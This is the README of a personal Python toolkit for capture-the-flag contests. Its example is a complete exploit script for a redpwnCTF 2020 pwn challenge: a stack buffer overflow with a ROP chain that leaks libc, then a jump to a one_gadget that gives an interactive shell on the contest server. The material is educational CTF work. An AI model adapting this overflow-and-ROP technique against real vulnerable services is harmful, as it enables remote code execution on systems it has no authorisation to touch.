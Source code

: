 # cool - CTF toolkit for me
[![CI](https://github.com/d2verb/cool/workflows/CI/badge.svg)](https://github.com/d2verb/cool/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/cool/blob/master/LICENSE)

## Prerequisite

`cool` uses `gmpy2`, so you must install some dependencies for it. In Linux case, just run following commands.

```shell
$ sudo apt-get update
$ sudo apt-get install -y libgmp-dev libmpfr-dev libmpc-dev libgmp3-dev
```

## How to install
We don't provide any convenient way to install now. You can install `cool` by downloading the artifact of GitHub Actions (named as `dist`) and using the wheel file in it.

```shell
$ unzip dist.zip
$ pip install ./dist/cool-0.1.0-py3-none-any.whl
```


## Example
This is an example solver to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from cool.pwn import elf, remote
from cool.util import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License
